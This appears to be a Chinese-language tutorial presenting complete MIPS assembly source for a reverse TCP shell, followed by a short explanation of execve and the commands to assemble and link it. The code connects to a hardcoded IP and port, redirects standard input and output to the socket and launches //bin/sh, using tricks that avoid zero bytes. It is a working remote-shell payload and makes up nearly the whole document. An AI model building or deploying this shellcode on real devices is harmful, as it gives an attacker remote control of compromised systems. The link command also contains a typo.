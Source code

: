 
## 一：Reverse_Tcp汇编源码
### 1.1 源码
~~~
.section .text
.global __start
.set noreorder
__start:

#sys_socket
#ao = admin
#a1 = type
#a2 = protocol
li $t7,-6			
nor $t7,$t7,$zero  	 //$t7 = not($t7 or $zero) = 5
addi $a0,$t7,-3		 //$a0 = 2		
addi $a1,$t7,-3		 //$a1 = 2
slti $a2,$zero,-1	 //$a2 = 0
li   $v0, 0x1057	 //sys_socket系统调用号，通过动态调试C语言版本的代码获得
syscall        

#connect
#a0 = socket
#a1 = ser_addr(family(word),port(word),ip(dword),0(qword))
#a2 = len
sw $v0,-1($sp)	 	//$v0 = sys_socket返回值
lw $a0,-1($sp)		//$a0 = $v0
li $t7,0xfffd		------------------------------
nor $t7,$t7,$zero
sw $t7,-32($sp)		//$t7 = 0000 0002(family)
lui $t6,0x7777
ori $t6,$t6,0x7777
sw $t6,-28($sp)		//$t6 = 7777 7777(port)
lui $t6,0xc0a8
ori $t6,$t6,0x1f69	//$t6 = c0a8 1f69(ip address)
sw $t6,-26($sp)		
addiu $a1,$sp,-30   //$a1 = ser_addr
li $t4,-17		   ------------------------------
nor $a2,$t4,$zero	//$a2 = ser_addr len
li  $v0, 0x104A	   ------------------------------
syscall

#dup2
#a0 = oldfd
#a1 = newfd(0,1,2)
li $s1,-3
nor $s1,$s1,$zero 			//$s1 = 2(0：标准输入 1：标准输出 2：标准错误)
lw $a0,-1($sp)				//$a0 = sys_socket返回值		
dup2_loop:move $a1,$s1		//$a1 = $s1
li $v0, 0xFDF
syscall
li $s0,-1					//$s0 = -1
addi $s1,$s1,-1				//$s1-=$s1
bne $s1,$s0,dup2_loop		//$s1!=$s0 进行循环

#execve
#a0 = filename
#a1 = argv
#a2 = envp
slti $a2,$zero,-1			//$a2 = 0			
lui $t7,0x2f2f
ori $t7,$t7,0x6269
sw $t7,-20($sp)     	    //$t7 = -20($sp) = 2f2f 6269 (//bi)
lui $t6,0x6e2f
ori $t6,$t6,0x7368			//$t6 = 6e2f 7368(n/sh)
sw $t6,-16($sp)
sw $zero,-12($sp)			
addiu $a0,$sp,-20			//$a0 = //bin/sh
sw $a0,-8($sp)
sw $zero,-4($sp)
addiu $a1,$sp,-8			//$a1 = &(//bin/sh)
li $v0, 0xFAB
syscall
~~~

### 1.2 execve函数定义
1、execve的定义形式：int execve(const char *filename, char *const argv[], char *const envp[]);

2、参数说明：

const char *filename：执行文件的完整路径。

char *const argv[]：传递给程序的完整参数列表，包括argv[0]，它一般是程序的名。

char *const envp[]：一般传递NULL，表示可变参数的结尾。

## 二：如何编译此段汇编代码
### mips-linux-as
位于跨平台编译工具buildroot中用来编译汇编源码，-o参数将指定文件编译为中间文件
例如本例中：
~~~
mips-linux-as -o s.o ./reverse_tcp_asm.S
~~~
### mips-linux-ld
位于跨平台编译工具buildroot中用来链接中间文件，-o参数将指定文件链接为可执行文件
例如本例中：
~~~
mips-linux_ld s.o -o ./reverse_tcp_asm
~~~



